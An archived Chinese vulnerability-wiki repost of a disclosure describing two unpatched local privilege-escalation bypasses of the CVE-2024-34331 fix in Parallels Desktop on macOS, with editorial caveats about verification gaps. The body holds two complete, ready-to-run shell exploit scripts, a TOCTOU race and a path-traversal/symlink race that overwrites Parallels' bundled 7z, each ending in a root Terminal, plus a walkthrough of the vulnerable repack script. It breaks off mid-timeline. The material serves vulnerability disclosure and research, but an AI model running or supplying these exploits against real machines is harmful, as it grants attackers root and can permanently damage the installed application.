




# 【真 0day】Parallels Desktop Repack提权0day漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Parallels Desktop repack脚本
- 文献类型：历史补丁绕过与本地提权研究
- 版本、权限及部署边界：本地低权、Parallels特权服务与GUI repack；19.4.0原路径、19.4.1新manual路径、文称20.2.1再次原路径；TCC权限未知
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 元数据旧CVE34331不能自动作为新绕过身份，本文两条实现/版本切换须独立记录并关联旧补丁
2. 开篇TOCTOU和Apple签名DYLIB两设想，实际第二段改为CFBundleDisplayName路径遍历/符号链接竞态，不能当已演示任意Apple二进制DYLIB注入
3. 脚本成功依赖精确目录/时序、已有临时目录状态和TCC App Management；改写Parallels自身7z有持久破坏风险且无恢复步骤
4. 最新20.2.1只限2025-02-20披露时点，不能当当前未修复；厂商/ZDI回应为作者自述，缺原报告全文证据
5. 末尾演示视频为空，原发现者34331链接在但本文绕过原作者/原博客缺失；无OS架构/补丁版本完整表
6. 原理多处行号引用经过省略代码后不匹配，保留节选标识；root shell只自述/截图未视检

### 操作风险

脚本成功依赖精确目录/时序、已有临时目录状态和TCC App Management；改写Parallels自身7z有持久破坏风险且无恢复步骤

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://khronokernel.com/macos/2024/05/30/CVE-2024-34331.html>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

 独眼情报   2025-02-21 03:57  
  
今天我要披露一个**0day漏洞**  
，这个漏洞可以绕过  
CVE-2024-34331  
的补丁。我发现了**两种不同的方法**  
可以绕过这个修复。这两种绕过方法已分别报告给了  
零日漏洞计划(ZDI)  
和受影响的厂商  
Parallels  
。不幸的是，他们的回应令人深感失望。  
  
考虑到厂商在收到报告后的**七个多月**  
里都没有修复这个漏洞，我决定公开披露这个0day漏洞利用。我的目的是提高安全意识，并敦促用户**主动采取风险缓解措施**  
，因为攻击者可能会在野外利用这个漏洞。  
## 背景  
  
在阅读了Mykola关于早期**CVE-2024-34331**  
(https://khronokernel.com/macos/2024/05/30/CVE-2024-34331.html  
)的博客后，我发现Parallels的补丁非常容易被绕过：  
  
  
  
图1  
  
建议先阅读他的原始博客。  
## 绕过方法  
  
补丁代码的作用是验证工具createinstallmedia  
是否由Apple签名。如果是，它就会以**root权限**  
启动createinstallmedia  
工具。否则，它会报错退出。  
  
这里至少有两种不同的绕过验证方式：  
1. 通过**TOCTOU**  
攻击绕过：在通过签名验证之后，在它启动工具之前，攻击者有足够的时间用恶意程序替换createinstallmedia  
工具！  
  
1. 签名验证的要求字符串**"anchor apple"**太弱了！攻击者可以找到一个**  
Apple签名的**可执行二进制文件（比如系统命令ls），然后将恶意DYLIB**  
注入**到Apple的二进制文件中，直接绕过签名验证！我在  
之前的博客  
中讨论过这个技巧。  
  
## 漏洞利用1  
  
针对do_repack_createinstallmedia  
函数的利用脚本如下：  
```
#!/bin/sh
# 通过TOCTOU绕过CVE-2024-34331的补丁

echo "[?] whoami; id"
whoami
id

echo "[*] 投放payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal &
EOF

chmod +x /tmp/payload

echo "[*] 投放假的macOS安装程序..."
mkdir -p /tmp/poc.app/Contents/Resources
cp /bin/ls /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName createinstallmedia

echo "[*] 触发repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] 等待验证..."
dir_pattern="/Users/$USER/Parallels/*iso.tmp.*"
# 检查随机目录是否存在
while [ -z "$(ls -d $dir_pattern 2>/dev/null)" ]; do
    :
done

mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
echo "[*] 完成。享受root shell吧 :P"

```  
## 时间线  
  
Mykola在5月30日发布了他的博客。  
  
我立即在5月31日向ZDI报告了这个绕过方法。  
  
然而，ZDI处理这个报告太慢了，然后情况发生了变化：  
  
  
  
图2  
  
ZDI告诉我他们无法在版本19.4.1  
上复现这个漏洞，但当我提交报告时最新版本是19.4.0  
。他们在我报告**六周后**  
才开始调查这个案例！  
## 19.4.1版本后的变化  
  
通过研究，我发现可执行文件prl_disp_service  
中的repack  
命令行发生了变化：  
  
  
  
图3  
  
在19.4.0  
版本中，命令行是：/bin/bash /Applications/Parallels Desktop.app/Contents/Resources//repack_osx_install_app.sh repack /private/tmp/poc.app /Users/fuzz/Parallels/macOS image file.iso -w  
  
在19.4.1  
版本中，命令行变成了：/bin/bash /Applications/Parallels Desktop.app/Contents/Resources//repack_osx_install_app.sh repack /private/tmp/poc.app /Users/fuzz/Parallels/macOS image file.dmg -w -z /Applications/Parallels Desktop.app/Contents/MacOS//7z  
  
从脚本Parallels Desktop.app/Contents/Resources/repack_osx_install_app.sh  
中可以看到：  
```
do_repack() {
 # 解析并检查参数/选项
 if [[ $# -lt 2 ]]; then
  echo "请指定app包和结果镜像文件路径。"
  return $ERR_INVALID_ARG
 fi

 local source_app="${1%/}"
 local result_dmg="$2"
 shift 2

 local overwrite="n"
 local p7z_tool=""
 while getopts wz: OPT; do
  case "$OPT" in
  w) overwrite="y" ;;
  z) p7z_tool="$OPTARG" ;;
  esac
 done
...
 # 执行repack（使用7z工具（如果指定）或仅使用原生工具）
 if [[ -f "$source_app/Contents/SharedSupport/InstallESD.dmg" || -n "$p7z_tool" ]]; then
  do_repack_manual "$source_app" "$result_dmg" "$p7z_tool"
 else
  do_repack_createinstallmedia "$source_app" "$result_dmg"
 fi
}

```  
  
我们可以看到它现在使用do_repack_manual  
函数，而不是do_repack_createinstallmedia  
函数。  
## 新问题  
  
好的，让我们检查do_repack_manual  
函数：  
```
do_repack_manual() {
 local source_app="$1"
 local result_dmg="$2"
 local p7z_tool="$3"

 # 创建临时目录用于文件操作
 temp_dir="$(mktemp -d -t 'osx_install_diskimage')"
 local temp_contents_dir="$temp_dir"/contents
 mkdir "$temp_contents_dir"

 local source_app_basename="$(basename "$source_app")"

 local result_vol_name="$(defaults read "$source_app"/Contents/Info CFBundleDisplayName)"
 local temp_result_dir=""

 local kernelcache_name=""
 local bootefi_name=""

 if [[ -z "$p7z_tool" ]]; then
  ...
 else
  local base_system_dmg=""
  local temp_base_system_dmg=""

  if [[ -e "$source_app"/Contents/SharedSupport/BaseSystem.dmg ]]; then
   base_system_dmg="$source_app"/Contents/SharedSupport/BaseSystem.dmg
  elif [[ -e "$source_app"/Contents/SharedSupport/InstallESD.dmg ]]; then
...
  elif [[ -e "$source_app"/Contents/SharedSupport/SharedSupport.dmg ]]; then
...
  fi

  # 从BaseSystem.dmg中提取（通过7z）boot.efi、prelinkedkernel等
  [ -e "$base_system_dmg" ] && "$p7z_tool" e -aos -o"$temp_contents_dir" "$base_system_dmg" \
   */System/Library/PrelinkedKernels/prelinkedkernel \
   */System/Library/Caches/com.apple.kext.caches/Startup/kernelcache \
   */System/Library/CoreServices/bootbase.efi \
   */System/Library/CoreServices/boot.efi \
   */System/Library/CoreServices/SystemVersion.plist \
   */System/Library/CoreServices/PlatformSupport.plist

  [ -z "$temp_base_system_dmg" ] || rm -- "$temp_base_system_dmg"
 fi
...

 if [[ -z "$p7z_tool" ]]; then
  ...
 else
  # 创建目录用于"混合CD"创建
  temp_result_dir="$temp_dir"/"$result_vol_name"
  mkdir "$temp_result_dir"
 fi

 # 组合生成.dmg内容（复制.app包、启动和内核文件等）

 move_file "$temp_contents_dir"/"$bootefi_name" "$temp_result_dir"/System/Library/CoreServices/boot.efi
 move_file "$temp_contents_dir"/SystemVersion.plist "$temp_result_dir"/System/Library/CoreServices/SystemVersion.plist
 move_file "$temp_contents_dir"/PlatformSupport.plist "$temp_result_dir"/System/Library/CoreServices/PlatformSupport.plist
...

 if [[ -e "$temp_contents_dir"/"$kernelcache_name" ]]; then
...
 fi

 if [[ -e "$source_app"/Contents/SharedSupport/SharedSupport.dmg ]]; then
...
 fi

 # 将源.app复制到镜像中
 cp -R "$source_app" "$temp_result_dir"

 if [[ -z "$p7z_tool" ]]; then
...
 else
...
  rm -rf -- "$temp_result_dir"
  "$p7z_tool" e -tapm -so -aos "$temp_hybrid_cd_dmg" *.hfs > "$temp_hfs_partition_dmg" || true
...
 fi
...
}

```  
  
第13行：变量$result_vol_name  
可以被攻击者控制，因此第50行的路径$temp_result_dir  
也可以被控制。  
  
第70行（# 将源.app复制到镜像中  
）：源路径$source_app  
和目标路径$temp_result_dir  
都可以被控制。因此攻击者可以获得一个原语，可以将任意内容写入任意root所有的路径。  
  
在我下面的漏洞利用中，我覆盖了$p7z_tool  
，它将在第77行以**root权限**  
启动。（这是**TCC App Management**  
允许的。）  
  
由于repack_osx_install_app.sh  
中的错误处理代码，我的漏洞利用面临一些挑战：  
```
trap "cleanup; exit $ERR_UNEXPECTED" ERR

```  
1. 在第51行，$temp_result_dir  
不应该存在，否则mkdir  
会返回错误。  
  
1. 解决方案：使用符号链接重定向root所有的结果文件夹。  
  
1. 从第56行到第58行，源路径必须存在才能进行move_file  
操作，否则会返回路径不存在错误。  
  
1. 解决方案：制作一个精心构造的BaseSystem.dmg  
供7z  
提取。  
  
## 漏洞利用2  
  
针对do_repack_manual  
函数的新漏洞利用脚本如下：  
```
#!/bin/sh
echo "[?] whoami; id"
whoami
id

echo "[*] 投放payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal
EOF

chmod +x /tmp/payload

echo "[*] 投放假的macOS安装程序..."
mkdir -p /tmp/poc.app/Contents/Resources
mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName ../../../../../../tmp/lnk/result

# 重定向root所有的"result"文件夹
mkdir /tmp/redirect
ln -s /tmp/redirect /tmp/lnk

echo "[*] 投放假的BaseSystem.dmg..."
mkdir -p /tmp/tmp/System/Library/CoreServices/
touch /tmp/tmp/System/Library/CoreServices/boot.efi
touch /tmp/tmp/System/Library/CoreServices/SystemVersion.plist
touch /tmp/tmp/System/Library/CoreServices/PlatformSupport.plist
/Applications/Parallels\ Desktop.app/Contents/MacOS/7z a 1.zip /tmp/tmp
mkdir -p /tmp/poc.app/Contents/SharedSupport/
mv 1.zip /tmp/poc.app/Contents/SharedSupport/BaseSystem.dmg

mkdir -p /tmp/dst/result/poc.app/Contents/Resources
# 在命令中：
# cp -R "$source_app" "$temp_result_dir"
# 7z命令将被我的payload替换
ln -s /Applications/Parallels\ Desktop.app/Contents/MacOS/7z /tmp/dst/result/poc.app/Contents/Resources/createinstallmedia

echo "[*] 触发repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] 等待temp_result_dir..."
while [ ! -d "/tmp/redirect/result" ]; do
      :
done
ln -sfn /tmp/dst /tmp/lnk

echo "[*] 完成。享受root shell吧 :P"

```  
## 时间线  
  
这次，我**不再相信ZDI了**  
。所以我决定直接向厂商报告这个新问题：  
  
  
  
图4  
  
<table><thead><tr><th style="color: rgb(66, 75, 93);font-size: 14px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">日期</span></section></th><th style="color: rgb(66, 75, 93);font-size: 14px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);height: auto;border-style: solid;border-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;padding: 5px 10px;min-width: 85px;"><section><span leaf="">动作</span></section></th></tr></thead><tbody><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2024-07-22</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">我：向security@parallels.com发送初始报告</span></section></td></tr><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2024-07-23</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">Parallels：将分析报告</span></section></td></tr><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2024-10-23</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">我：询问进展 -&gt; </span><strong style="color: rgb(66, 75, 93);font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgba(0, 0, 0, 0);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;margin-top: 0px;margin-bottom: 0px;margin-left: 0px;margin-right: 0px;padding-top: 0px;padding-bottom: 0px;padding-left: 0px;padding-right: 0px;border-top-style: none;border-bottom-style: none;border-left-style: none;border-right-style: none;border-top-width: 3px;border-bottom-width: 3px;border-left-width: 3px;border-right-width: 3px;border-top-color: rgba(0, 0, 0, 0.4);border-bottom-color: rgba(0, 0, 0, 0.4);border-left-color: rgba(0, 0, 0, 0.4);border-right-color: rgba(0, 0, 0, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><span leaf="">无回应</span></strong></section></td></tr><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2025-02-12</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">我：询问进展 -&gt; </span><strong style="color: rgb(66, 75, 93);font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgba(0, 0, 0, 0);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;margin-top: 0px;margin-bottom: 0px;margin-left: 0px;margin-right: 0px;padding-top: 0px;padding-bottom: 0px;padding-left: 0px;padding-right: 0px;border-top-style: none;border-bottom-style: none;border-left-style: none;border-right-style: none;border-top-width: 3px;border-bottom-width: 3px;border-left-width: 3px;border-right-width: 3px;border-top-color: rgba(0, 0, 0, 0.4);border-bottom-color: rgba(0, 0, 0, 0.4);border-left-color: rgba(0, 0, 0, 0.4);border-right-color: rgba(0, 0, 0, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><span leaf="">无回应</span></strong></section></td></tr><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2025-02-19</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">我：询问进展 -&gt; </span><strong style="color: rgb(66, 75, 93);font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgba(0, 0, 0, 0);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;margin-top: 0px;margin-bottom: 0px;margin-left: 0px;margin-right: 0px;padding-top: 0px;padding-bottom: 0px;padding-left: 0px;padding-right: 0px;border-top-style: none;border-bottom-style: none;border-left-style: none;border-right-style: none;border-top-width: 3px;border-bottom-width: 3px;border-left-width: 3px;border-right-width: 3px;border-top-color: rgba(0, 0, 0, 0.4);border-bottom-color: rgba(0, 0, 0, 0.4);border-left-color: rgba(0, 0, 0, 0.4);border-right-color: rgba(0, 0, 0, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><span leaf="">无回应</span></strong></section></td></tr><tr style="color: rgb(66, 75, 93);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 